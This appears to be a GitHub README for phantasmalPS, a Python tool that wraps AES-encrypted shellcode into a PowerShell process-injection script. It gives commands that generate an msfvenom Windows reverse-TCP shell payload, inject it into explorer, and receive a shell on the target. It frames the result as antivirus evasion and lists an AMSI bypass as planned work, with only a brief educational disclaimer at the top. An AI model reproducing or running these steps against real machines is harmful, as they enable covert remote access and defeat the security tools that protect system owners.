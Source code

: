 # phantasmalPS
This Python script generates a PowerShell Process Injection script with AES encrypted shellcode.

## Disclaimer
This repository is for educational purposes only. Do not use on computers, servers or endpoints without authorization. I am not responsible for any damages you may cause. Use it at your own discretion.



## Simple Usage:
Let's start with installing the required libraries:
```python
pip3 install -r requirements.txt
```
```bash
python3 phantasmalPS.py -h
```
![Help](Images/phantasmalPS-help.png)

First generate a shellcode within your favorite C2 framework:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport 8443 -f raw -o shell.bin
```
Let phantasmalPS do its magic:
```bash
python3 phantasmalPS.py -f shell.bin -p explorer
```
![Run](Images/run-phantasmalPS.png)

It generates a PowerShell file called "simplescript.ps1" n the same directory you downloaded phantasmalPS.py:
```bash
ls -l simplescript.ps1
```
![Attack](Images/file-check.png)

Now, transfer the PowerShell script to a Windows machine and get a shell back:

![Reverse Shell](Images/AV-evasion.png)

Thank you

## To-Do
- Add Amsi bypass
- Add more injection techniques
- Add more payload encryption techniques

